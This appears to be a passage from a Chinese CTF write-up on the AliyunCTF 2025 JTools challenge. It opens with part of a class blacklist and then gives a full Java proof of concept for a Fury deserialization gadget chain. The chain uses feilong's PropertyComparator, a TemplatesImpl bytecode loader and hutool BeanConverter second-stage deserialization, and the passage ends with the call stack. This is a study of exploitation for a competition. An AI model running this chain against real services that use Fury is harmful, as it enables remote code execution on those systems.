org.yaml.snakeyaml.tokens.DirectiveToken
pstore.shaded.org.apache.commons.collections.functors.InvokerTransformer
sun.print
sun.print.UnixPrintService
sun.print.UnixPrintServiceLookup
sun.rmi.server.UnicastRef
sun.rmi.server.UnicastRef2
sun.rmi.transport.LiveRef
sun.rmi.transport.tcp.TCPEndpoint
sun.swing.SwingLazyValue
weblogic.ejb20.internal.LocalHomeHandleImpl
weblogic.jms.common.ObjectMessageImpl
com.atomikos.icatch.jta.RemoteClientUserTransaction
com.feilong.lib
```

在学习 CB 链的时候，我们知道如果 o1 是一个`TemplatesImpl`对象，而 property 的值为 outputProperties 时，将会自动调用getter，也就是`TemplatesImpl#getOutputProperties()`方法。审计可以发现`com.feilong.core.util.comparator.PropertyComparator#compare`

```java
public int compare(T t1, T t2) {
    if (t1 == t2) {
        return 0;
    } else if (null == t1) {
        return 1;
    } else if (null == t2) {
        return -1;
    } else {
        Comparable propertyValue1 = (Comparable)PropertyUtil.getProperty(t1, this.propertyName);
        Comparable propertyValue2 = (Comparable)PropertyUtil.getProperty(t2, this.propertyName);
        if (null != this.propertyValueConvertToClass) {
            propertyValue1 = (Comparable)ConvertUtil.convert(propertyValue1, this.propertyValueConvertToClass);
            propertyValue2 = (Comparable)ConvertUtil.convert(propertyValue2, this.propertyValueConvertToClass);
        }

        return null == this.comparator ? this.compare(t1, t2, propertyValue1, propertyValue2) : this.comparator.compare(propertyValue1, propertyValue2);
    }
}
```

和 CB 链的代码是完全一样的！

不过 com.feilong 在黑名单里面，我也不知道如何绕过



也就是说，现在需要找一个合理的二次反序列化，学习 7u21 8u20 的时候我们知道通过动态代理对象，我们可以到 invoke，本题使用的是 BeanConverter 的二次反序列化，网上搜都搜不到🤗

由于获得不到 jar包，需要设置 pom.xml 如下，（远程可直接写入文件即可获得 flag）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fury</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fury.version>0.10.0</fury.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <hutool.version>5.8.13</hutool.version>
        <feilong.version>4.3.0</feilong.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.fury</groupId>
            <artifactId>fury-core</artifactId>
            <version>${fury.version}</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
        <dependency>
            <groupId>cn.hutool</groupId>
            <artifactId>hutool-all</artifactId>
            <version>${hutool.version}</version>
        </dependency>
        <dependency>
            <groupId>com.github.ifeilong</groupId>
            <artifactId>feilong</artifactId>
            <version>${feilong.version}</version>
        </dependency>
    </dependencies>
</project>
```

需要注意的是 Dialect 类的获取，为什么是代理这个类，最后一层需要是一个 Bean，要有 setter 或 public field，前面的常规反序列化可以直接借鉴 CB，将 priorityQueue 的值存储到 HashMap 的时候还需要找一个有 getter 方法的键值。

根据思路写出 poc

```java
package org.Fury.Exp;

import cn.hutool.core.map.MapProxy;
import cn.hutool.core.util.ObjectUtil;
import cn.hutool.db.dialect.Dialect;
import com.feilong.core.util.comparator.PropertyComparator;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class Jtools {
    public static void main(String[] args) throws Exception {
        Object templates1 = getTemplates("org.Fury.Base.Eval");
        Object templates2 = getTemplates("org.Fury.Base.Eval");

        PropertyComparator beanComparator = new PropertyComparator("outputProperties");
        PriorityQueue priorityQueue1 = new PriorityQueue(2, beanComparator);
        setFieldValue(priorityQueue1, "size", 2);
        Object[] t = {templates1, templates2};
        setFieldValue(priorityQueue1, "queue", new Object[]{templates1, templates2});

        byte[] decode = ObjectUtil.serialize(priorityQueue1);

        Map hashMap = new HashMap<>();
        hashMap.put("wrapper", decode);
        MapProxy mapProxy = new MapProxy(hashMap);

        Dialect o1 = (Dialect) Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy);
        Dialect o2 = (Dialect) Proxy.newProxyInstance(Dialect.class.getClassLoader(), new Class[]{Dialect.class}, mapProxy);

        PropertyComparator propertyComparator = new PropertyComparator("wrapper");
        PriorityQueue priorityQueue = new PriorityQueue(2, propertyComparator);
        setFieldValue(priorityQueue, "size", 2);
        Object[] objects = {o1, o2};
        setFieldValue(priorityQueue, "queue", objects);

        String poc = furyserialize(priorityQueue);
        furyunserialize(poc);

    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    private static Object getTemplates(String className) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        byte[] bytecode = classPool.get(className).toBytecode();

        Templates templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytecode});
        setFieldValue(templates, "_name", "pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        return templates;
    }
    public static void furyunserialize(String data) {
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        fury.deserialize(Base64.getDecoder().decode(data));
    }

    public static String furyserialize(Object data) {
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        byte[] serialize = fury.serialize(data);
        return Base64.getEncoder().encodeToString(serialize);
    }
}
```



调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.feilong.lib.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:1922)
at com.feilong.lib.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1095)
at com.feilong.lib.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1079)
at com.feilong.lib.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:825)
at com.feilong.lib.beanutils.PropertyUtils.getProperty(PropertyUtils.java:162)
at com.feilong.core.bean.PropertyValueObtainer.getDataUseApache(PropertyValueObtainer.java:89)
at com.feilong.core.bean.PropertyValueObtainer.obtain(PropertyValueObtainer.java:70)
at com.feilong.core.bean.PropertyUtil.getProperty(PropertyUtil.java:577)
at com.feilong.core.util.comparator.PropertyComparator.compare(PropertyComparator.java:430)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:687)
at java.util.PriorityQueue.heapify(PriorityQueue.java:736)
at java.util.PriorityQueue.readObject(PriorityQueue.java:795)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at cn.hutool.core.io.IoUtil.readObj(IoUtil.java:615)
at cn.hutool.core.io.IoUtil.readObj(IoUtil.java:582)
at cn.hutool.core.io.IoUtil.readObj(IoUtil.java:563)
at cn.hutool.core.util.SerializeUtil.deserialize(SerializeUtil.java:65)
at cn.hutool.core.util.ObjectUtil.deserialize(ObjectUtil.java:594)
at cn.hutool.core.convert.impl.BeanConverter.convertInternal(BeanConverter.java:81)
at cn.hutool.core.convert.AbstractConverter.convert(AbstractConverter.java:58)
at cn.hutool.core.convert.ConverterRegistry.convert(ConverterRegistry.java:288)
at cn.hutool.core.convert.ConverterRegistry.convert(ConverterRegistry.java:307)
at cn.hutool.core.convert.Convert.convertWithCheck(Convert.java:765)
at cn.hutool.core.convert.Convert.convert(Convert.java:718)
at cn.hutool.core.convert.Convert.convert(Convert.java:689)
at cn.hutool.core.map.MapProxy.invoke(MapProxy.java:147)
at com.sun.proxy.$Proxy0.getWrapper(Unknown Source:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.feilong.lib.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:1922)
at com.feilong.lib.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1095)
at com.feilong.lib.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1079)
at com.feilong.lib.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:825)
at com.feilong.lib.beanutils.PropertyUtils.getProperty(PropertyUtils.java:162)
at com.feilong.core.bean.PropertyValueObtainer.getDataUseApache(PropertyValueObtainer.java:89)
at com.feilong.core.bean.PropertyValueObtainer.obtain(PropertyValueObtainer.java:70)
at com.feilong.core.bean.PropertyUtil.getProperty(PropertyUtil.java:577)
at com.feilong.core.util.comparator.PropertyComparator.compare(PropertyComparator.java:430)
at java.util.PriorityQueue.siftUpUsingComparator(PriorityQueue.java:669)
at java.util.PriorityQueue.siftUp(PriorityQueue.java:645)
at java.util.PriorityQueue.offer(PriorityQueue.java:344)
at java.util.PriorityQueue.add(PriorityQueue.java:321)
at org.apache.fury.serializer.collection.AbstractCollectionSerializer.readSameTypeElements(AbstractCollectionSerializer.java:694)
at org.apache.fury.serializer.collection.AbstractCollectionSerializer.generalJavaRead(AbstractCollectionSerializer.java:672)
at org.apache.fury.serializer.collection.AbstractCollectionSerializer.readElements(AbstractCollectionSerializer.java:595)
at org.apache.fury.serializer.collection.CollectionSerializer.read(CollectionSerializer.java:73)
at org.apache.fury.serializer.collection.CollectionSerializer.read(CollectionSerializer.java:28)
at org.apache.fury.Fury.readDataInternal(Fury.java:972)
at org.apache.fury.Fury.readRef(Fury.java:865)
at org.apache.fury.Fury.deserialize(Fury.java:797)
at org.apache.fury.Fury.deserialize(Fury.java:718)
at org.Fury.Exp.Jtools.furyunserialize(Jtools.java:69)
at org.Fury.Exp.Jtools.main(Jtools.java:48)
```

小林师傅的WP真的可以详细看看，写的非常好，👏

> https://asal1n.github.io/2025/03/02/JAVA%20Fury%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
>
> https://eddiemurphy89.github.io/2025/03/01/AliyunCTF2025-JTools%E5%88%86%E6%9E%90/
>
> https://aecous.github.io/2025/06/29/%E9%98%BF%E9%87%8C%E4%BA%91jtools/
>
> https://fury.apache.org/zh-CN/docs/guide/java_object_graph_guide
